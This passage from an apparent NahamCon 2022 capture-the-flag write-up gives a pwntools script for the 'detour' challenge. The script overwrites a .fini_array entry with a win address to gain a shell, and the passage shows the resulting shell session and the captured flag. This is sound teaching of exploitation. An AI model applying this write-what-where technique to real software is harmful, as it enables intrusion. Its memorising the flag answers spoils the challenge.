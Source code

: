 ```py
from pwn import *
fini = 0x4031c8
base = 0x403430
win = 0x401209
elf = ELF("./detour")
# p = elf.process()
p = remote("challenge.nahamcon.com", 32364)
p.sendlineafter("What: ",str(win))
p.sendlineafter("Where: ",str(fini-base))
p.interactive()
```
Result:
```
[*] Switching to interactive mode
$ ls
bin
detour
dev
etc
flag.txt
lib
lib32
lib64
libx32
usr
$ cat flag.txt
flag{787325292ef650fa69541722bb57bed9}
$
[*] Closed connection to challenge.nahamcon.com port 32640
```
## Flag
```
flag{787325292ef650fa69541722bb57bed9}
```
---
# Two For One {#two}

![two](/uploads/nahamcon2022/two.png)

It's a website, we ask to sign up to login
